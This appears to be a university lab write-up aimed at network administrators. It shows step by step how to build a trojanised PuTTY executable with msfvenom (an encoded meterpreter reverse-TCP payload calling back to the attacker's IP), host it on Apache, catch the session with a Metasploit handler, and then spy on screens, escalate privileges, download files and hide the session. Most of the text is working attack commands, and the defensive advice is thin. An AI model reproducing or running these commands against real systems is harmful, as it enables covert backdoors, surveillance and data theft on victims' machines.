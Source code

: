 **\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_**

**Objectives:**

- **Learn how to efficiently use msfvenom.**

- **Attack a device.**

- **Learn how to prevent a msfvenom attack.**

**\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_**

The purpose of this document is to help network administrators
understand how hackers can use msfvenom to gain confidential information
about a network. Using this document, administrators should be able to
clearly understand how to use msfvenom, and how to prevent msfvenom
attacks.

**Section 1: Testing Connectivity**

1.  Access the Attacker Virtual Machine, or your attacker machine. Note,
    this will be using the UofSC Virtual Lab environment. I am limited
    to using the lab environment as I am on a Chromebook, however this
    lab can work with any device(s) running Linux, just simply changing
    the IPs for your situation.

2.  Test connectivity between the attacker machine and the victim
    machine. Note that **Ping** is used to test connectivity, and **--c
    4** tells the machine to send only 4 pings to the machine.

![](/media/image.png){width="5.208333333333333in"
height="2.178886701662292in"}

We can see that when the attacker tries to communicate with the victim,
certain IP rules are in place to stop the communication.

3.  Test connectivity between the Victim Machine and the Attacker
    Machine when the Victim is the one to initiate the conversation.

> ![](/media/image2.png){width="3.7721314523184604in"
> height="1.84375in"}
>
> We can see that when the victim initiates the conversation, pings are
> received.
>
> **Section 2: Using msfvenom to create a malicious executable**

1.  Using the command **ifconfig,** find the attackers eth0 ip address.

> ![](/media/image3.png){width="3.65625in" height="2.654296806649169in"}
>
> We can see that the address is 216.0.0.10

2.  Gain root access to run msfvenom. Use **sudo su** and enter the root
    password.

3.  We will now create the malicious executable. We will use Putty.exe.
    Putty is a common application to have on an individual's device.
    Note that this could work with any executable. Enter the command
    **msfvenom --a x86 --platform windows --x putty.exe -k --p
    windows/meterpreter/reverse_tcp LHOST=216.0.0.10 LPORT=4444 --e
    x86/shikata_ga_nai --i 3 --b "\x00" -f exe --o
    maliciousPutty.exe**  
    ![](/media/image4.png){width="6.614583333333333in"
    height="1.880284339457568in"}It is saved as maliciousPutty.exe

4.  Now we will create a server to put this new Putty executable on.
    This requires an HTML page that lists all the files in a directory.
    Use the command **service apache2 start** and **service apache2
    status** to start and check the status of the new web server.

> ![](/media/image5.png){width="6.5in" height="3.25in"}The default
> directory for this server is /var/www/html so this is where we will
> copy our maliciousPutty executable.

5.  Run **cp maliciousPutty.exe /var/www/html** then run **ls
    /var/www/html** to check that the executable is there.

> ![](/media/image6.png "Inserting image..."){width="5.75in"
> height="1.78125in"}
>
> **Section 3: Creating a listener server**
>
> We will now create a listener server so that we can control the victim
> machine after it is infected.

1.  Enter **msfconsole** to begin.

2.  Enter **use exploit/multi/handler** this creates a listener server
    that can handle multiple victims.

3.  Now we will set the payload to match up with our executable. Use the
    command **set PAYLOAD windows/meterpreter/reverse_tcp**

4.  Use **set LHOST 216.0.0.10** and **set LPORT 4444** notice that
    these match up with what we entered for our executable.

5.  Type in **exploit** and our server will begin to listen.

> ![](/media/image7.png){width="4.959025590551181in"
> height="1.7398261154855643in"}
>
> **Section 4: Firewall Problems**
>
> The main issue with a msfvenom attack is the operating system
> firewall. This can be disabled in a couple ways. In a real-life
> situation, a hacker would use some type of social engineering to have
> a user disable their firewall. The best way to defend against these
> attacks, therefore, is to train staff and let them know what commands
> like this can do, as well as show them what happens if this attack is
> successful.

1.  Go to the victims machine. Luckly for us, there is a simple command
    ready for us to run via the desktop. This executable runs a command.
    The best way to prevent attacks is to make sure users understand
    what this command does, and what it is. Now, we will run it for the
    sake of testing.

> ![](/media/image8.png){width="5.75in" height="2.4166666666666665in"}

2.  Click Yes

> **Section 5: Downloading the Malware**

1.  On the victim's machine, go to
    [**www.software.com**](https://www.software.com). This is the
    website we "hijacked", but you could also go to your attackers web
    server directly.

2.  Download **maliciousPutty.exe**.

> ![](/media/image9.png){width="5.75in" height="3.4166666666666665in"}

3.  Depending on computer settings, click **keep** if prompted.

4.  Open the file and click **run**.

5.  We see that Putty appears. However, we can also now access the
    victims machine.\\

> I will now go through several use cases that a hacker could use
> msfvenom for.
>
> **Section 6.1: Using msfvenom as spyware**

1.  First, going back to the victim machine, we will type in **use
    espia** and then use **screengrab** to take a screenshot of the
    victim's machine. Then, look through the kali folder and you should
    be able to see the screenshot.

> ![](/media/imagea.png){width="5.75in"
> height="2.7604166666666665in"}This is a screenshot of the victims
> machine.

2.  Next, type in **background** to put the meterpreter in as a
    background process. We can return to it later.  
    ![](/media/imageb.png "Inserting image..."){width="3.9380489938757655in"
    height="1.7294083552055992in"}

3.  Lets load a screenshare module to continuously see the victim's
    screen. Run the command **use post/multi/manage/screenshare** and
    then run **show options**. We can see the victim's machine, and how
    the local port is 8080.

> ![](/media/imagec.png){width="4.583973097112861in"
> height="2.87540135608049in"}

4.  Enter **set session 1** and enter **run**.

> We now have a website that we can visit to see the users screen.

5.  Open the website and interact with the victim machine. We can see
    that we can see changes live.

> ![](/media/imaged.png){width="5.75in" height="2.5520833333333335in"}

6.  There are several options we can use, including **control target**
    and **image delay**

> **Section 6.2: Privilege Escalation**

1.  To begin, return back to meterpreter.

2.  Run **use priv** to gain access to the **getsystem command.** Note
    that it may already be loaded. In our system, the administrator was
    careful and made sure there were no privileges that we did not need.

> ![](/media/imagee.png){width="5.75in" height="1.625in"}

**Section 6.3: Fun with Directories**

1.  Now, we will go ahead and read and download files from the victim.
    On the victim machine, go to the downloads folder and create a text
    file. Enter some text into it.

> ![](/media/imagef.png "Inserting image..."){width="6.5in"
> height="2.46875in"}

2.  Now, on the attacker machine, we will attempt to read the file using
    **cat test.txt**.

> ![](/media/image10.png "Inserting image..."){width="5.323659230096238in"
> height="0.5834142607174103in"}

3.  We successfully read it. Now, we can even download it. All we need
    to run is **download test.txt**

> ![](/media/image11.png "Inserting image..."){width="6.5in"
> height="0.6770833333333334in"}
>
> This is the most volatile use for msfvenom. It can be used to swiftly
> gain information about a company, or even be hidden in different
> applications for months, even years and slowly export most of the
> network information that is available.
>
> **Section 6.4: Hiding msfvenom**

1.  Hiding msfvenom is very easy. Simply use the command **sleep \<time
    in seconds\>** so, for example, **sleep 10**

2.  Then, run **exploit** and wait for the sleep to be over.

> ![](/media/image12.png){width="6.5in" height="1.8125in"}
>
> This is scary because most system administrators do routine checkups
> on a set amount of time, where it is easy to find what time
> administrators do checkups. The best way to stop this is to do
> checkups at random times.

Overall, this document has completed its purpose. Hopefully this is
useful for system administrators to reconsider policies that could be
detrimental to a network.
